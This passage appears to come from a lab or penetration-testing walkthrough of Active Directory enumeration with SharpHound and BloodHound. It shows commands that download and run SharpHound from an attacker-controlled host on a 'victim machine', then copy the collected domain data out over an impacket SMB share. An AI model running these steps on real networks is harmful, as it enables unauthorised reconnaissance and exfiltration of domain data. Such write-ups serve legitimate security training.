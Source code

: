 [SharpHound](https://github.com/BloodHoundAD/SharpHound) is a data collector for BloodHound. We will collect information about domain objects via SharpHound and analyze it using BloodHound. 

```
PS C:\windows\tasks> iwr -uri http://192.168.100.132/SharpHound.exe -o SharpHound.exe

PS C:\windows\tasks> .\SharpHound.exe
.\SharpHound.exe
2023-10-02T04:41:49.1924360-07:00|INFORMATION|This version of SharpHound is compatible with the 4.3.1 Release of BloodHound
...
2023-10-02T04:42:32.6453308-07:00|INFORMATION|SharpHound Enumeration Completed at 4:42 AM on 10/2/2023! Happy Graphing!
```

Now, we need to transfer the output file to our kali machine. 

Start SMB server on kali:
 ```
 ┌──(kali㉿kali)-[~/Captivity]
└─$ impacket-smbserver -smb2support share . -username kali -password kali 
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed

```

Mount the share on victim machine:
```
PS C:\Windows\tasks> net use f: \\192.168.100.132\share /user:kali kali /persistent:yes
net use f: \\192.168.100.132\share /user:kali kali /persistent:yes
The command completed successfully.
```
And copy SharpHound output to the mounted folder. 
```
PS C:\windows\tasks> cp 20231002044231_BloodHound.zip f:\
cp 20231002044231_BloodHound.zip f:\
```

If this is your first time setting up BloodHound, please refer to [this link](https://www.ired.team/offensive-security-experiments/active-directory-kerberos-abuse/abusing-active-directory-with-bloodhound-on-kali-linux).


Now, import the data (20231002044231_BloodHound.zip) by drag and dropping.  

### Finding Vulnerable Domain Objects via BloodHound Analysis

Bloodhound is a great tool to analyze domain object relations and possibly find misconfigurations. For example, in the analysis section we can find many pre-built queries that find known mistakes made by system admins.
